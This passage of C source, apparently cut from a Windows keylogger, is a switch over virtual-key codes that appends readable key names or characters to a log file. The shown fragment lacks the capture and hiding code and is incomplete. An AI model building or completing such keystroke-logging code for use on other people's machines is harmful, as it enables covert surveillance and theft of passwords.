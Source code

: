                 switch(i) {
                    case VK_SPACE:
                    fputc(' ', file);
                    fclose(file);
                    break;
                    case VK_SHIFT:
                    fputs("\r\n[SHIFT]\r\n", file);
                    fclose(file);
                    break;
                    case VK_RETURN:
                    fputs("\r\n[ENTER]\r\n",file);
                    fclose(file);
                    break;
                    case VK_BACK:
                    fputs("\r\n[BACKSPACE]\r\n",file);
                    fclose(file);
                    break;
                    case VK_TAB:
                    fputs("\r\n[TAB]\r\n",file);
                    fclose(file);
                    break;
                    case VK_CONTROL:
                    fputs("\r\n[CTRL]\r\n",file);
                    fclose(file);
                    break;
                    case VK_DELETE:
                    fputs("\r\n[DEL]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_1:
                    fputs("\r\n[;:]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_2:
                    fputs("\r\n[/?]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_3:
                    fputs("\r\n[`~]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_4:
                    fputs("\r\n[ [{ ]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_5:
                    fputs("\r\n[\\|]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_6:
                    fputs("\r\n[ ]} ]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_7:
                    fputs("\r\n['\"]\r\n",file);
                    fclose(file);
                    break;
                    case 187:
                    fputc('+',file);
                    fclose(file);
                    break;
                    case 188:
                    fputc(',',file);
                    fclose(file);
